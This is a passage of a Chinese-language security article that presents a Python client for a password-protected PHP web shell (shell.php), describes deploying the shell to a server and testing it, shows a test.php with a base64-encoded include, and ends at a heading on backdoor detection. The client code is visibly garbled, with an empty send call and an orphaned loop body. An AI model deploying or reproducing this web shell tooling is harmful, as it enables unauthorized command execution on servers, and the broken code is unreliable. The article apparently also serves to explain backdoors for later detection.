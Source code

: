 ```
import requests 
import base64
import sys

def send_raw(url,password,cmd):
    res=requests.post(url,{
        'password':password,
        'code': base64.b64encode(cmd.encode('utf-8')) 
    })
    return res.text

def send_php_shell(url,password,cmd):
    return send_raw(url,password,'')
        if cmd == 'exit':
            break
        elif cmd.startswith('run'):
            cmd,path = cmd.split(' ',1)
            code = ''
            with open(path) as f:
                for line in f:
                    code = code + line + "\r\n" 
            response = send_raw(url,password,code);
            print(response)
        else:
            response = send_php_shell(url,password,cmd);
            print(response)

```

我们把我们的 shell.php 部署到服务器上，执行测试 shell.py ：

![php-shell.png](http://image.3001.net/images/20180704/15306865741559.png!small)

其中，`test.php` 的内容为：

```
<?php
    include 'PD9waHAgZWNobyAiaGVsbG8gc2hlbGxcclxuIjs';
    echo 'hello, shell world';

```

## 0x03 后门查杀
